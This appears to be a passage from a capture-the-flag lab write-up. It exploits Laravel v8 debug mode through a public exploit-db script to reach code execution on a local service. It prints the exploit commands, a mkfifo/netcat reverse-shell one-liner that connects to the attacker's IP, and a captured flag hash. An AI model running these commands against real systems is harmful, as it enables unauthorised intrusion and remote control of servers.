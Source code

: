 There is a Laravel v8 debug exploit on exploit db
https://www.exploit-db.com/exploits/49424

Needed to find the log location for Laravel. Assuming it is in ""/home/developer/myproject" as it is not in "/var/www/html"

After some trial and error for locating the log found logs are "/home/developer/myproject/storage/logs/laravel.log" and RCE.

```
python3 49424.py http://127.0.0.1:8000 /home/developer/myproject/storage/logs/laravel.log 'id' 
```

![](../Attachments/Pasted%20image%2020210926212908.png)

### Root Shell

```
python3 49424.py http://127.0.0.1:8000 /home/developer/myproject/storage/logs/laravel.log 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.11 31337 >/tmp/f'
```

![](../Attachments/Pasted%20image%2020210926213603.png)

---

# Loot
## User
>193c0ffabb2e8bc3e879368bbaee5db6

Command
```
ifconfig;id;hostname;cat user.txt
```
